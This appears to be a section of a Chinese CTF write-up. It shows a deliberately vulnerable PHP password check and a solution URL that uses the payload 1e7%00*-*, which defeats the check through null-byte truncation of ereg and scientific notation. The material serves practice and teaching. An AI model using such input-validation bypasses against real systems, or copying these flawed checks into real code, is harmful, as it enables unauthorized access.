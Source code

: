 ## 5 绕过练习

```php
 <?php
error_reporting(0);
highlight_file("index.php");
include "flag.php";
if (isset ($_GET['password'])) {
    if (ereg("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE) {
        echo 'You password must be alphanumeric';
    } else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999) {
        if (strpos($_GET['password'], '*-*') !== FALSE) 
        {
            die('Flag: ' . $flag);
        } else {
            echo('- have not been found');
        }
    } else {
        echo 'Invalid password';
    }
}


http://81.70.159.127/Web5/index.php?password=1e7%00*-*
```

-  `ereg("^[a-zA-Z0-9]+$", $_GET['password'])`

  输入必须是字母数字，使用 `%00` 截断。

- `strlen($_GET['password']) < 8 && $_GET['password'] > 9999999  `

  科学计数法。

- `strpos($_GET['password'], '*-*') !== FALSE`

  输入中必须包含 `*-*` 字符。

## 6 todo

  